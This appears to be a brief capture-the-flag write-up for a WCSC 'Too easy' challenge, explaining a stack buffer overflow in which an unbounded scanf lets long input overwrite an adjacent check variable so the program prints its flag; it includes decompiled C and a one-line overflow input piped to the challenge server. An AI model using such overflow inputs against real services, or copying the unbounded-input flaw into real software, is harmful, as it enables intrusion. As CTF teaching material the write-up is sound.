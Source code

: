 ---
## 100 Too easy WCSC

This one as the name suggests, was incredibly easy and honestly probably worth too many points, but here's a writeup regardless.


So we are given a binary tooEasy and was told that 
| Challenge by: nullp0inter
| This one is almost too easy, get the flag!
| nc wcscctf.org 8383

Opening up the binary in ida we see two functions of note, `main` and `det`, generated c code at the bottom of this post.

In main buffer is allocated to **0x424** (or (1060)<sup>10</sup> in decimal)

The variable (not originally named this) called `overWriteThisSheet` is allocated right after buffer. 
`overWriteThisSheet = 56797;` happens in `main`. 

Now looking at `det` we see that `verWriteThisShit` is passed to the function and has a simple check to see if it is the originally set value, **56797**. 

So even though the python script to run this like a normal exploit, it would be easier to just use `python -c '"a"*1070' ` and pipe the output to `nc wcscctf.org 8383`

```language-c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buffer; // [sp+4h] [bp-424h]
  int overWriteThisSheet; // [sp+41Ch] [bp-Ch]

  overWriteThisSheet = 56797;
  __isoc99_scanf("%s", &buffer);
  det(overWriteThisSheet);
  return 1;
}
```

```language-c
void __cdecl det(int overWriteThisSheet)
{
  char buf; // [sp+Ch] [bp-8Ch]@2
  int fd; // [sp+8Ch] [bp-Ch]@2

  if ( overWriteThisSheet != 56797 )
  {
    puts("GZ, you win!");
    fd = open("./flag.txt", 0);
    read(fd, &buf, 0x80u);
    printf("%s", &buf);
    exit(0);
  }
}
```
